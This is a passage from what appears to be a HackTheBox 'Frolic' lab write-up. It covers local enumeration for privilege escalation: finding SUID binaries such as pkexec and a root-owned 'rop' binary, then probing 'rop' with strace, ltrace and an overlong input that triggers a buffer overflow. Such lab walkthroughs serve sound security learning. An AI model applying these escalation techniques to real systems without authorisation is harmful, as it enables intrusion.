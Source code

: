 <br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_59.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_60.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_61.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I keep performing enumeration commands, but I don't find many things, before uploading some script to automate the search for information that will allow me to escalate privileges, I list some directories and find some interesting hidden folders, because of the name they have. In one of them I find a file that seems to be an executable.

```bash
find \-perm -4000 2>/dev/null
#    --> ./usr/bin/pkexec            :)
getcap / -r 2>/dev/null
sudo -l
id
groups
netstat -nat
ps -faux

cd /home/ayush/.binary
```

<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_62.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_63.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/frolic_writeup/Frolic_64.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I do some research on this file and check with `file` that it is a 32bit binary, I also do some debbugging with `ltrace` and `strace`, but I don't find any useful information. I also see that it has the **SUID bit** enabled, so when I run it I will have the privileges of its owner user, in this case **root**. I run it and I see that it is a basic script that copies a string that I pass as an argument, and also, perhaps most importantly, it is susceptible to **Buffer Overflow**. I transfer it to my attacking machine to perform a deeper debugging.

> **Victime Machine:**

```bash
file rop
./rop
./rop hello
which ltrace
which strace
strace ./rop hello
#        Library Hijacking?    :(:(

ls -la
"    --> -rwsr-xr-x 1 root  root

ltrace ./rop hello

ltrace ./rop AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

```